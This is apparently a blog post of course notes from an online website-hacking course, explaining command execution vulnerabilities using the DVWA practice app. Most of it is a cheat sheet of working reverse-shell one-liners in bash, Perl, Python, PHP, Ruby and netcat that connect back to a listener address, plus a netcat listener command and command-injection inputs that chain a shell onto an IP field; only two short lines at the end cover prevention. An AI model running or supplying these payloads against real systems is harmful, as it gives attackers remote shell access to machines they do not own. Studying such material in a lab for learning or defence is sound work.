 ```yaml
---
title: What is Code Execution Vulnerabilities
date: 2017-10-31 12:00:00
tags:
categories: 資訊安全
---
```

https://www.udemy.com/learn-website-hacking-penetration-testing-from-scratch/learn/v4/
## Ch 6 : What is Code Execution Vulnerabilities ?
> The 3rd meeting. 
> Lecturer: Tony
* Allows an hacker to execut OS commands.
* Windows or Linux commands.
* Can be get used to reverse shell.
* Or upload any file using wget command.
* Code execution commands attached in the resources.

### Shell examples with different env

> The following examples assums the hacker IP is 10.20.14 and use port 8080 for the connection.

> Therefore in all f these cases you need to listen for port 8080 using the foolowing command


`Kali linux` Listening on 8080 port
```
nc -vv -l -p 8080
```


---
#### BASH
```
bash -i >& /dev/tcp/10.20.14.208/8080 0>&1
```

#### PERL
```
perl -e 'use Socket;$i="10.20.14.208";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14.208",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP
```
php -r '$sock=fsockopen("10.20.14.208",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.20.14.208",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat
```
nc -e /bin/sh 10.20.14 8080
```
---
### Try yourself
> In this example. we are going to use the Netcat.
> 
Inject the code via input into `Target`.
```
10.20.14.208; pwd
10.20.14.208 | nc -e /bin/sh 10.20.14.208 8080
```

> tips. turn the DVWA security level to `low`
> 

#### Low Security Level
> Simply using `;` to connect the second command. `e.g.` `ls; pwd`.
#### Med Security Level
> It used to be work with `ls ; pwd`. But right now it may prevent the inject by using detect the `;` character. So we change another unix feature called `pipe` with symbol `|`.
#### High Security Level
> View the source code. It check the ip pattern by seperating with `.` into arrarys and allowed only numbers.
### How to prevent the code execution vulnerabilities 
1. Dont use dangerous functions. Such as any of OS functions.
2. Filter user input before execution. e.g. the ip input formate should match the pattern xxx.xxx.xxx.xxx.